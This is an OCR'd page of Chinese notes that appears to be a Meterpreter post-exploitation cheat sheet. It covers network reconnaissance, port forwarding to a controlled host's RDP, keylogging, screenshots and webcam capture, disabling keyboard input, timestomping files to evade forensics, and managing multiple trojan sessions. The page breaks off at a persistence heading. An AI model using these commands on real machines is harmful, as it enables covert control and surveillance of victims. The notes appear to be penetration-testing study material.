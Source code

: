 shell #中文编码修改
shell中set查看环境变量

#### 网络操作

arp #查看arp表
getproxy #查看代理
ipconfig
netstat
route -h#查看路由表
resolve #解析域名
portfwd -h #端口转发
ep: port add -l 6666 -p 3389 -r 被控机ip （delete）

portfwd list查看


#### 其他操作

enumdesktops #枚举桌面
setdesktop -h #设置桌面
getdesktop 
keyborad_send
keyevent -h #设置按下抬起 keycode(13 回车)press
keyscan_dump
keyscan_start
keyscan_stop
mouse doubleclick 双击
mose move 

screenshare
screenshot
uictl #控制接口单元
ep: uictl disable/enable keyboard/all

timestomp back.exe -v #修改时间戳

webcanm
play #播放鬼音乐

#### 多木马控制

background/bg
session
set exitonsession false #支持多个木马连接

run/exploit -h
run -j  #后台静默
jobs #查看后台

session -i 1 #选中

jobs -h
jobs -k #关闭


#### 持久化
